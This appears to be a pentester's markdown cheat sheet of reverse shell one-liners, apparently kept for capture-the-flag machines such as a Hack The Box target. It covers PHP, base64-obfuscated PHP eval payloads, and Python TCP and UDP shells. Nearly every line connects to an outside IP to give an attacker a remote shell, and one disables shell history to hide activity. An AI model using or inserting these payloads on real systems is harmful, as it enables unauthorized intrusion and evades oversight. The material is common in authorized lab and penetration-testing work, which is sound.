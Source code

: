 
# php
    This code assumes that the TCP connection uses file descriptor 3.  If it doesn’t work, try 4, 5, 6…
    php -r '$sock=fsockopen("10.10.14.36",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

    <?php $sock=fsockopen("10.10.14.36",4444);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
    [exploit/php_reverse_shell/php-reverse-shell.php](exploit/php_reverse_shell/php-reverse-shell.php)

    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 4444 >/tmp/f");?>

# php in base64


    system('id');   c3lzdGVtKCdpZCcpOw==    eval(base64_decode("c3lzdGVtKCdpZCcpOw=="));

    <?php
    $source = base64_encode("system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.14.7 4444 >/tmp/f');");
    echo $source."\n";
    c3lzdGVtKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMy4xNC43IDQ0NDQgPi90bXAvZicpOw==
    eval(base64_decode($source));        
    ?>    
    => eval(base64_decode("c3lzdGVtKCdybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC4xMy4xNC43IDQ0NDQgPi90bXAvZicpOw=="));



# Python

    - Collection of python TCP/UDP/PTY shells: https://github.com/infodox/python-pty-shells

     os.system('nc 192.168.168.168 443 -e /bin/sh')

     python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python udp webshell

    ex: HTB - Koker
    - https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py.

    Get iptable (tcp are blocked.. use udp)
    subprocess.check_output(['cat','/etc/iptables/rules.v4'])
    import subprocess; print subprocess.check_output(['iptables','-L'])


    listener (nc wont work) : # socat file:`tty`,echo=0,raw udp-listen:1234

    Reverse udp shell
    import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.14.18\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
